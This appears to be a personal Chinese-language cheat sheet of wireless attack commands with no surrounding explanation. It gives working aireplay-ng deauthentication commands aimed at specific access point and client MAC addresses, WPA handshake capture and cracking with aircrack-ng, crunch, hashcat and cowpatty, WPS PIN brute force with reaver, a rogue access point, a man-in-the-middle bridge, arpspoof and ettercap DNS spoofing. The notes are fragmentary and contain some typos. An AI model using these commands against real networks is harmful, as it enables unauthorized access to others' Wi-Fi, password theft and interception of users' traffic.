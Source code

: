 wifi-ceshi

---

aircrack-ng 破解WEP以及WPA（字典攻击）密钥

airdecap-ng通过已知密钥来解密WEP或WPA嗅探数据

airmon-ng将网卡设定为监听模式

aireplay-ng数据包注入工具（Linux和Windows使用CommView驱动程序）

airodump-ng数据包嗅探：将无线网络数据输送到PCAP或IVS文件并显示网络信息

airtun-ng创建虚拟管道

airolib-ng保存、管理ESSID密码列表

packetforge-ng创建数据包注入用的加密包。

Tools混合、转换工具

airbase-ng软件模拟AP

airdecloak-ng消除pcap文件中的WEP加密

airdriver-ng无线设备驱动管理工具

airolib-ng保存、管理ESSID密码列表，计算对应的密钥

airserv-ng允许不同的进程访问无线网卡

buddy-ng easside-ng的文件描述

easside-ng 和AP接入点通讯（无WEP）

tkiptun-ng WPA/TKIP攻击

wesside-ng 自动破解WEP密钥

iwconfig

wlx00367652b3c9

ifconfig  wlx00367652b3c9

00:36:76:52:b3:c9

iwconfig wlx00367652b3c9 essid "jiali"

 ifconfig wlx00367652b3c9 up
 
iwlist

ruote -n

ifconfig wlx00367652b3c9 192.168.2.130 netmask 255.255.255.0

 airmon-ng  aircrack-ng
 
iwconfig  wlx00367652b3c9 channel 11

aireplay-ng -0 5 -a <mac> --ignore-negative wlx00367652b3c9 

 aircrack-ng 工具套件 -- airmon-ng ， aireplay-ng ， airodump-ng ， aircrack-ng

airodump-ng wlx00367652b3c9

airodump-ng –bssid 00:21:91:D2:8E:25 --channel 11 --write WEPCrackingDemo wlx00367652b3c9

airodump-ng –-bssid 14:75:90:57:F1:46 -–channel 11 –-write WPACrackingDemo wlx00367652b3c9

14:75:90:57:F1:46 jiali

airepaly-ng --deauth 1 -a  14:75:90:57:F1:46  wlx00367652b3c9  –-ignore-negative-one

tshark -r xx.cap

 airbase-ng  --essid jiali2 -c 11 wlx00367652b3c9


ifconfig eth0 0.0.0.0 up 

ifconfig ath0 0.0.0.0 up

网络桥接

echo 1 > /proc/sys/net/ipv4/ip_forward ip转发

brctl addbr mitm-bridge

 brctl addif mitm-bridge 
 
eth0 brctl addif mitm-bridge 

at0 ifconfig eth0 0.0.0.0 up

ifconfig at0 0.0.0.0 up


Wifite

aireplay-ng  -0 5  -a 14:75:90:57:F1:46 40:EC:99:D0:AA:E8 wlan0

aireplay-ng -0 5  -a 14:75:90:57:F1:46 -c 40:EC:99:D0:AA:E8 wlan0 

airodump-ng  -w /root/wpa-1 -c 1  wlan0 --ignore-negative-one   

airodump-ng  -w /root/wpa-1 -c 1  wlan0 --ignore-negative-one    检测
aircrack-ng -w testpass  /root/wpa-1-01.cap    破解
aireplay-ng -0 5  -a 14:75:90:57:F1:46 -c 40:EC:99:D0:AA:E8  wlan0 弹出网络

crunch

crunch 9 9 pass2 | aircrack-ng /root/wpa-1-01.cap -e jiali -w -

跑包

aircrack-ng /root/wpa-1-01.cap  -J /root/wpahashcap
hashcat
hashcat -m 2500 /root/wpahashcap.hccap /root/testpass 

cowpatty -f /root/testpass  -r /root/wpa-1-01.cap  -s jiali     

genpmk -f

wifite --dict /root/testpass  自动破解

彩虹表加速

li:~# airolib-ng RAINBOW_2 --import essid /root/essid 

 airolib-ng RAINBOW_2 --import passwd /root/testpass 
 
airolib-ng RAINBOW_2 --batch

airolib-ng RAINBOW_2 --export 

EWSA pyrit 慢慢跑

专业跑包 EWSA psk ，综合psk，pmk


云计算跑包

破解WPS

wash -i wlan0    判断wps wifite

wps，pin码破解原理

reaver命令穷举PIN码破解

-i  无线网卡名称

-b  目标AP的mac地址

-a  自动检测目标AP最佳配置

-S  使用最小的DH key，可以提高破解速度

-vv  显示更多的非严重警告（注意这是 2 个小写字母 v）

-d  即delay每穷举一次的闲置时间 预设为1秒

-c  信道编号

-p  PIN码四位或八位  //可以用8位直接找到密码。

知道pin码，改密码无用

reaver -b mac -i wlan0  -a -S -d 0 -t 1 -n -c 1

reaver -i wlan0mon -b xx:xx:xx:xx:xx:xx -vv

破解时推荐使用这个命令：reaver -i wlan0mon -b D8:15:0D:D6:13:92 -a -S -d9 -t9 -vv,因为–d9 –t9参数可以防止pin死路由器

 reaver  -i  wlan0mon -b  xx:xx:xx:xx:xx:xx  -p 12316977
 
pixiewps 破解wps，wifite 穷举

arpspoof

 cat /proc/sys/net/ipv4//ip_forward
 
arpspoof -i eth0 -t 10.1.1.3 10.1.1.254

ettercap 会话劫持，会话欺骗 抓包

毒化内网用户

ettercap dns 欺骗

无线不知道PIN： #reaver -i wlan0 -b mac地址 -vv

reaver -i wlan0 -b  FC:D7:33:99:87:E8  -a -S -d9 -t9 -vv

知道PIN ：  #reaver -i wlan0 -b FC:D7:33:99:87:E8  -P 12345670
 FC:D7:33:99:87:E8

aireplay-ng deauth攻击

aircrack-ng -w dic cap文件

freeradius

hostapd

asleap
